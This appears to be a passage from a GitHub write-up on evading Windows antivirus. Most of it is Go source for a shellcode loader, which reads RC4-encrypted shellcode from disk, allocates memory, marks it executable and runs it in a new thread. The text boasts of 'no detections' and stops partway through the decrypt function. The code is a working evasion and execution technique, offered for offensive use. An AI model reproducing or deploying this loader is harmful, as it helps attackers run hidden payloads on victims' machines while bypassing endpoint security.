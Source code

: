 ## We are safe from w1ndoze for the moment, no detections when we aren't using known shellcode in our script.

**We decrypt the rc4 encrypted shellcode stored on disk and push it to memory**  

```  
go run sample-2.go
```  

**sample-2.go: rc4 decrypt and push to memory.**
```go  
package main

import (
	"crypto/rc4"
	"fmt"
	"io/ioutil"
	"syscall"
	"unsafe"
)

var (
	kernel32            = syscall.NewLazyDLL("kernel32.dll")
	ntdll               = syscall.NewLazyDLL("ntdll.dll")
	virtualAlloc        = kernel32.NewProc("VirtualAlloc")
	virtualProtect      = kernel32.NewProc("VirtualProtect")
	createThread        = kernel32.NewProc("CreateThread")
	waitForSingleObject = kernel32.NewProc("WaitForSingleObject")
	rtlMoveMemory       = ntdll.NewProc("RtlMoveMemory")
)

const (
	MEM_COMMIT        = 0x00001000
	MEM_RESERVE       = 0x00002000
	PAGE_READWRITE    = 0x04
	PAGE_EXECUTE_READ = 0x20
	INFINITE          = 0xFFFFFFFF
)

func executeShellcode(shellcode []byte) {
	// Allocate memory for the shellcode
	mem, _, _ := virtualAlloc.Call(0, uintptr(len(shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_READWRITE)

	// Copy the shellcode to the allocated memory
	rtlMoveMemory.Call(mem, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))

	// Change memory protection to executable
	var oldProtect uint32
	virtualProtect.Call(mem, uintptr(len(shellcode)), PAGE_EXECUTE_READ, uintptr(unsafe.Pointer(&oldProtect)))

	// Create a new thread to execute the shellcode
	thread, _, _ := createThread.Call(0, 0, mem, 0, 0, 0)

	// Wait for the thread to finish
	waitForSingleObject.Call(thread, uintptr(INFINITE))
}

func decryptRC4(key, ciphertext []byte) []byte {
	cipher, err := rc4.NewCipher(key)
	if err != nil {
		fmt.Errorf(err.Error())
	}
```